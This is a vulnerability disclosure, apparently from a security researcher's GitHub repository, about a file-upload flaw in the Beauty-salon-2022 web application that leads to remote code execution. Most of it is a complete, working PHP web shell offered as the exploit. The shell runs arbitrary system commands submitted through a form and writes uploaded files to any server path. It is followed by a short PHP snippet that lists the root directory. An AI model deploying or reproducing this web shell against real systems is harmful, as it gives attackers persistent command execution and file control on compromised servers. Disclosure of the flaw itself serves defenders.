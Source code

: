 ## Beauty-salon-2022-Webshell-file-upload-RCE

![](https://github.com/nu11secur1ty/NVE/blob/NVE-master/2022/NVE-2022-1012/Docs/Screenshot%202022-10-12%20162133.png)

## Description:
The parameter `userimage` from Beauty-salon-2022 suffers from Web Shell-File Upload - RCE.
NOTE: The user permissions of this system are not working correctly, and the function is not sanitizing well.
The attacker can use an already created account from someone who controls this system and he can upload a very malicious file by using this vulnerability, 
or more precisely (no sanitizing of function for edit image), for whatever account, then he can execute it from anywhere on the external network.

Status: HIGH Vulnerability

[+] Exploit-File-Upload:

```php
<!-- Project Name : PHP Web Shell -->
<!-- Version : 4.0 nu11secur1ty -->
<!-- First development date : 2022/10/05 -->
<!-- This Version development date : 2022/10/05 -->
<!-- Moded and working with PHP 8 : 2022/10/05 -->
<!-- language : html, css, javascript, php -->
<!-- Developer : nu11secur1ty -->
<!-- Web site : https://www.nu11secur1ty.com/ -->

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
	<head>
		<meta http-equiv="Content-Type" content="text/html" charset="euc-kr">
		<title>PHP Web Shell Ver 4.0 by nu11secur1ty</title>
		<script type="text/javascript">
			function FocusIn(obj)
			{
				if(obj.value == obj.defaultValue)
					obj.value = '';
			}
			
			function FocusOut(obj)
			{
				if(obj.value == '')
					obj.value = obj.defaultValue;
			}
		</script>
	</head>
	<body>
		<b>WebShell's Location = http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?></b><br><br>
		
		HTTP_HOST = <?php echo $_SERVER['HTTP_HOST'] ?><br>
		REQUEST_URI = <?php echo $_SERVER['REQUEST_URI'] ?><br>
		
		<br>
		
		<form name="cmd_exec" method="post" action="http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?>">	
			<input type="text" name="cmd" size="70" maxlength="500" value="Input command to execute" onfocus="FocusIn(document.cmd_exec.cmd)" onblur="FocusOut(document.cmd_exec.cmd)">
			<input type="submit" name="exec" value="exec">
		</form>
		<?php
			if(isset($_POST['exec']))
			{
				exec($_POST['cmd'],$result);

				echo '----------------- < OutPut > -----------------';
				echo '<pre>';
				foreach($result as $print)
				{
					$print = str_replace('<','&lt;',$print);
					echo $print . '<br>';
				}
				echo '</pre>';
			}
			else echo '<br>';
		?>
		
		<form enctype="multipart/form-data" name="file_upload" method="post" action="http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?>">
			<input type="file" name="file">
			<input type="submit" name="upload" value="upload"><br>
			<input type="text" name="target" size="100" value="Location where file will be uploaded (include file name!)" onfocus="FocusIn(document.file_upload.target)" onblur="FocusOut(document.file_upload.target)">
		</form>
		<?php
			if(isset($_POST['upload']))
			{
				$check = move_uploaded_file($_FILES['file']['tmp_name'], $_POST['target']);
				
				if($check == TRUE)
					echo '<pre>The file was uploaded successfully!!</pre>';
				else
					echo '<pre>File Upload was failed...</pre>';
			}
		?>
	</body>
</html>
```
[+]Exploit-RCE:

```PHP
<?php
$dir    = '/';
$files1 = scandir($dir);
$files2 = scandir($dir, 1);

print_r($files1);
print_r($files2);
?>
```

# Proof and Exploit:
[href](https://streamable.com/ewdmoh)

# m0e3:
[href](https://www.nu11secur1ty.com/2022/10/beauty-salon-2022-web-shell-file-upload.html)
